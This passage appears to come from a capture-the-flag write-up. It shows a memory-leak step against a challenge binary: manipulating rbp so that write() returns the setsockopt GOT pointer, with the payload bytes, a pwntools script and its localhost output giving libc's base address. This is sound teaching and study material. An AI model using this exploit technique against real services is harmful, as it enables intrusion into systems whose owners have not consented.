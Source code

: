These instructions set up a function call and calls write with the following parameters:

`write(client_fd, (*$rbp)-0x8, car->trackLength);`

Since we can manipulate the data present in `rbp`, we can make it write the value at any address in the program back to us. So we just need to find a pointer to a pointer to a known address in libc. After some looking around I found the address `0x400800` which is a pointer to `setsockopt@got`, which is located at `0x404018`, which in turn points directly to the `setsockopt` function as the GOT entry has been populated:

```text
pwndbg> telescope 0x400800 1
00:0000│  0x400800 —▸ 0x404018 (setsockopt@got[plt]) —▸ 0x7ffff7ebacb0 (setsockopt) ◂— endbr64 
```

To leak libc we only need to find out how we can manipulate (rbp). After some fiddling around, I found out that we can do this by adding the address right before the saved rip.

To do this we will use the following payload:

`b'A'*48 + p64(0x400800 + 0x8) + p64(0x401541)`

Here the first address is the pointer to a pointer to setsockopt, and the second address is `go_vroom_vroom+256` where the call takes place.

After the write the program will surely crash, but that is alright as we will get our libc leak. This snippet uses the same `getremote()` function as the POC in [Obtaining RIP control](#obtaining-rip-control):

```py
io1 = getremote(16)  # This remote has a small stack

PAYLOAD = b'A'*48 + p64(0x400800 + 0x8) + p64(0x401541)

io2 = getremote(PAYLOAD)
io1.sendlineafter(b'>', b'')  # This will trigger the bug

io1.recvline()
io1.recvline()

leak = u64(io1.recv(8))

io1.close()

libc = ELF("./handout/libc.so.6", checksec=False)

libc.address = leak - libc.symbols.setsockopt

log.info(f"Libc @ {hex(libc.address)}")
```

Running this gives me the following output:

```text
[+] Opening connection to localhost on port 13337: Done
[+] Opening connection to localhost on port 13337: Done
[*] Closed connection to localhost port 13337
[*] Libc @ 0x7ffff7d93000
[*] Closed connection to localhost port 13337
```
